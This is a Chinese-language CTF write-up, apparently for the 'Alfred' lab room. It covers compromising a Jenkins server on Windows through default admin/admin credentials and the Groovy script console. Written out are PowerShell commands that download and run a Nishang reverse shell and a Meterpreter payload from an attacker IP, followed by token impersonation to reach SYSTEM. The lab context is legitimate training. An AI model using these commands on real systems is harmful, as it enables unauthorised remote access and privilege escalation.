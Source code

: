 # Alfred

在这个房间里，我们将学习如何利用广泛使用的自动化服务器上的常见错误配置（Jenkins - 此工具用于创建持续集成/持续开发管道，允许开发人员在更改代码后自动部署其代码）。之后，我们将使用一种有趣的权限提升方法来获得完整的系统访问权限。

由于这是一个Windows应用程序，我们将使用Nishinang来获得初始访问权限。存储库包含一组有用的脚本，用于初始访问、枚举和权限提升。在本例中，我们将使用反向 shell 脚本

---

循例 nm  扫

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">nmap</font> <font color="#9755B3">-sV</font> 10.10.243.186 <font color="#9755B3">-Pn</font></pre>

这波不一样，需要加-Pn，否则扫不出来，因为题目说了机器禁ping

---

开了三个端口

    80/tcp   open  http       Microsoft IIS httpd 7.5
    3389/tcp open  tcpwrapped
    8080/tcp open  http       Jetty 9.4.z-SNAPSHOT

80端口的web只有一张图片，先到8080看看有没有东西

是一个登录页面，翻了一眼源代码和抓包，都没啥东西，似乎也没有sqli，

刚打算爆破，试了一下弱口令，还真成功了

    username: admin
    password: admin

有一处地方能够执行命令，查阅文档：https://www.jenkins.io/doc/book/managing/script-console/

文档中的一句话引起了我的注意：

    是Jenkins运行时中基于Web的Groovy shell。Groovy是一个非常 一种功能强大的语言，它提供了实际上做Java所能做的任何事情的能力 包括：

百度搜索groovy语言相关文档，最终发现 execute可以执行命令

    在groovy中只要把字符串后面调用execute方法就能执行字符串中的命令，当然前提条件是这个字符串是相应平台上的可执行命令

.

    "whoami".execute().text

成功，现在尝试reverse shell:

发现powershell是可用的，那就用它来getshell，构造payload:

常规的payload好像不行，看看nishang的github

    方法 1.使用内存中的下载并执行： 使用以下命令从远程 shell、meterpreter 本机 shell、Web shell 等执行 PowerShell 脚本及其导出的函数。尼尚中的所有脚本都会在当前 PowerShell 会话中导出具有相同名称的函数。

    powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]

使用之前先下载 https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

然后在攻击机上：

    python3 -m http.server

尝试rce 反弹shell:

    "powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.17.14:8000/windows-tools_and_exp/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.17.14 -Port 8888".execute()

成功

<pre>Ncat: Connection from 10.10.243.186.
Ncat: Connection from 10.10.243.186:49296.
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins&gt;
</pre>

<pre>PS C:\Users\bruce\Desktop&gt; type c:\users\bruce\desktop\user.txt
79007a09481963edf2e1321abd9ae2a0
</pre>

使用metasploit生成个metpreter的reverse shell然后利用rce将其下载到目标

    "powershell '(New-Object System.Net.WebClient).Downloadfile('http://10.11.17.14:8000/met_rev.exe','shell-name.exe')'".execute()

msfconsole> use exploit/multi/handler开启监听

在我们刚开始的reverse shell启动这个reverse shell：

    Start-Process "met_rev.exe"

meterpreter:

    load incognito 

    list_tokens -g 查看可用token

    impersonate_token "BUILTIN\Administrators"  使用token

<pre><u style="text-decoration-style:single">meterpreter</u> &gt; getuid
Server username: NT AUTHORITY\SYSTEM
</pre>


即使您具有更高特权的令牌，您实际上也可能没有特权用户的权限（这是由于 Windows 处理权限的方式 - 它使用进程的主令牌而不是模拟令牌来确定进程可以或不能执行的操作）。确保迁移到具有正确权限的进程（上述问题已回答）。最安全的拣选过程是服务.exe过程。首先使用 ps 命令查看进程并查找服务.exe进程的 PID。使用命令迁移 PID 进程迁移到此进程

---

尝试转储到lsass.exe

<pre><u style="text-decoration-style:single">meterpreter</u> &gt; migrate 676
<font color="#277FFF"><b>[*]</b></font> Migrating from 2300 to 676...
<font color="#277FFF"><b>[*]</b></font> Migration completed successfully.
</pre>

shell

<pre>C:\Windows\system32&gt;type C:\Windows\system32\config\root.txt
type C:\Windows\system32\config\root.txt
dff0f748678f280250f25a45b8046b4a

</pre>
